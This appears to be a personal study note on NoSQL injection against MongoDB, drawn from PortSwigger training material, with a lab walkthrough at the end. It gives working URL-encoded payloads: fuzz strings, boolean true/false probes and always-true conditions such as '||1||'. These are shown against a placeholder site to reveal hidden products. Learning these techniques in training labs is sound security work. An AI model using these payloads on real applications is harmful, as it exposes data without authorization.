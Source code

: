 [[Bug]]
source: [portswigger](https://portswigger.net/web-security/nosql-injection)

#### NoSQL syntax injection

try to enter some special  character and fuzz strings and look for errors.
every language have different special character so If you know the API language of the target database, use special characters and fuzz strings that are relevant to that language. and if not try to use different ones 
here i will focus on **`MongoDB`** language 

for example in website `https://insecure-website.com/product/lookup?category=fizz` it will send json query to retrieve data , you can check if it vulnerable or not using this payload
```
'"`{ 
;$Foo} 
$Foo \xYZ
```

will be like this `https://insecure-website.com/product/lookup?category='%22%60%7b%0d%0a%3b%24Foo%7d%0d%0a%24Foo%20%5cxYZ%00`

```
Note
NoSQL injection vulnerabilities can occur in a variety of contexts, and you need to adapt your fuzz strings accordingly. Otherwise, you may simply trigger validation errors that mean the application never executes your query.

In this example, we're injecting the fuzz string via the URL, so the string is URL-encoded. In some applications, you may need to inject your payload via a JSON property instead. In this case, this payload would become '\"`{\r;$Foo}\n$Foo \\xYZ\u0000
```
--------
-----
###### Determining which characters are processed
then try to inject each char alone for exmaple if you submit this `'` 
`this.category == '''`
if it cause error , then try this
`this.category == '\''`
to escape the quote 
if the error disappears then it vulnerable to injection attack  

---
###### Confirming conditional behavior
now lets see if  can inject boolean or no and to do that we will send two request one true and the other one is false and see if it response differently For example you could use the conditional statements **`' && 0 && 'x`** and **`' && 1 && 'x`** as follows:

**`https://insecure-website.com/product/lookup?category=fizzy'+%26%26+0+%26%26+'x`**

**`https://insecure-website.com/product/lookup?category=fizzy'+%26%26+1+%26%26+'x`**

check for different in response or behave 

----
###### Overriding existing conditions
you can attempt to override existing conditions to exploit the vulnerability. For example, you can inject a JavaScript condition that always evaluates to true, such as `'||'1'=='1`:

`https://insecure-website.com/product/lookup?category=fizzy%27%7c%7c%27%31%27%3d%3d%27%31`

This results in the following MongoDB query:

`this.category == 'fizzy'||'1'=='1'`

As the injected condition is always true, the modified query returns all items. This enables you to view all the products in any category, including hidden or unknown categories.

----
[lab](https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-detection)
when choosing category or filter then add `'` it will cause error which will show on the screen and if we made it like this `'+'` (after encode it )the error will disappears  , if we try to use this payload  `' && 0 && 'x` (after encode it) it will not show anything ,and if we use this `' && 1 && 'x` it will show all product that related to the filter , so here we **know that it is vulnerable to injection**

then this payload `'||1||'` and it show all the product even the unreleased ones

(make sure to URL-encode all of these payloads before using)

----
